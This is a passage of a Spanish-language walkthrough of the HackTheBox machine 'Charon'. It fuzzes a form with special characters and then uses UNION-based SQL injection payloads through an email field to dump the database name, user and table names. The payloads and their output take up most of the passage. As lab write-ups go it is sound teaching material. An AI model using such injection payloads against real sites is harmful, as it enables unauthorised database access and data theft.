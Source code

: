 Para hacer un barrido sobre los caracteres especiales, hacremos uso del archivo `/opt/SecLists/Fuzzing/special-chars.txt` (que en caso de no tenerlo, podemos descargar [SecLists](https://github.com/danielmiessler/SecLists) y lo guardamos en `/opt/`). Como la respuesta no es la que buscamos, vamos a tratar de hacer combinaciones de caracteres especiales. Pero para este caso vamos a utilizar la herramienta [BurpSuite](https://portswigger.net/burp)

![](/assets/images/htb-charon/charon-burp.png)

Vemos que la combinación `@` y `.` generan una respuesta **Email sent to:**, por lo que podriamos pensar que dichos símbolos son necesarios cuando queramos hacer una inyección. Ahora vamos a tratar de obtener el nombre de la base de datos a través del comando `database()` y `concat`.

```bash
❯ python3 sqli_charon.py
Email: test@test.com' UNion select 1,2,3,concat(database(),"@.")-- -
[*] Email sent to: supercms@.=
Email:  
```

Tenemos el nombre de la base de datos `supercms`; por lo que ya encontramos una forma de dumpear la base de datos.

```bash
❯ python3 sqli_charon.py
Email: test@test.com' UNion select 1,2,3,concat(database(),"@.")-- -
[*] Email sent to: supercms@.=
Email: test@test.com' UNion select 1,2,3,concat(user(),"@.")-- -
[*] Email sent to: supercms@localhost@.=
Email: test@test.com' UNion select 1,2,3,concat(table_name,"@.") from information_schema.tables where table_schema="supercms" limit 1,1-- -
[*] Email sent to: license@.=
Email: test@test.com' UNion select 1,2,3,concat(table_name,"@.") from information_schema.tables where table_schema="supercms" limit 2,1-- -
[*] Email sent to: operators@.=
```